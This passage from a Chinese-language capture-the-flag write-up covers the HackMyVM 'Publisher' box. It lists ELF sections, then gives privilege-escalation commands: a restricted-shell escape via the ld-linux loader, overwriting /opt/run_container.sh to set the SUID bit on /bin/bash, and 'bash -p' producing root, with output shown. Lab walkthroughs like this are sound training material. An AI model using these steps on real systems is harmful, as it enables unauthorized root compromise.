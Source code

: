 ```bash
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

发现该二进制文件似乎与 `/bin/bash`、`/opt/run_container.sh`，似乎是使用bash运行`/opt/run_container.sh`。但是当我查看`/opt/run_container.sh`时发现我没有`/opt/`目录的访问权限，然后就歇b了，实在做不出来我就去看其他师傅的wp了，看的是`ll104567`和`HGBE`两位师傅的wp,发现当前使用的是`受限外壳`,需要绕过。

---

### **7. 提权为 root**

通过动态链接库生成 `bash` shell 来提权。首先，加载 `bash` 所需的共享库：

```bash
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /bin/bash
```

运行 `/usr/sbin/run_container`让它触发执行`/opt/run_container.sh`，并修改`/opt/run_container.sh`脚本：

```bash
think@publisher:~$ echo '#!/bin/bash' > /opt/run_container.sh
think@publisher:~$ echo 'chmod +s /bin/bash' >> /opt/run_container.sh
think@publisher:~$/usr/sbin/run_container
think@publisher:~$ cat /opt/run_container.sh
#!/bin/bash  
chmod +s /bin/bash  
```

然后使用 `bash -p` 提升权限为 root：

```bash
think@publisher:~$ bash -p  
bash-5.0# id 
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
```

---

成功获取 root 权限后，已完全控制目标系统。

### 参考

[HGBE](https://hgbe02.github.io/Hackmyvm/publisher.html)

[ll104567](https://www.bilibili.com/video/BV1TM4m1U7y4/)

[voltage](https://vishal-chandak.medium.com/hackmyvm-publisher-4a5033fce95d)